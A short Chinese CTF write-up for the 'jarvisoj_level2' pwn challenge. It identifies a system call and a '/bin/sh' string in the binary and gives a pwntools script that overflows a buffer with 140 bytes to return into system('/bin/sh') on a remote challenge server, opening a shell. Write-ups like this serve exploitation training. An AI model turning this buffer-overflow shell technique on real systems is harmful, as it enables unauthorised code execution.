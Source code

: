 ```yaml
---
title: "jarvisoj_level2"
description: ""
date: 2023-04-06T21:02:34+08:00
lastmod: 2023-04-06T21:02:34+08:00
draft: false
images: []
type: docs
weight: 994
toc: true
---
```


## 0x01 分析

![5899a34e8af123188640d50e90e8ab90](images/5899a34e8af123188640d50e90e8ab90.png)  

有system函数

![66e9da989afa3c853990969832f95810](images/66e9da989afa3c853990969832f95810.png)  

也有 `/bin/sh` 字符串

所以就是ret2libc

## 0x02 Exploit

```python
from pwn import*
# o = process("./pwn")
o = remote("node4.buuoj.cn", 29126)
call_system = 0x804845C
bin_sh = 0x804A024
payload = b'a'*140 + p32(call_system) + p32(bin_sh)
o.sendline(payload)
o.interactive()

```

![b7c03d69d0b2a4b197b52dac6a5531f6](images/b7c03d69d0b2a4b197b52dac6a5531f6.png)  

自行调试
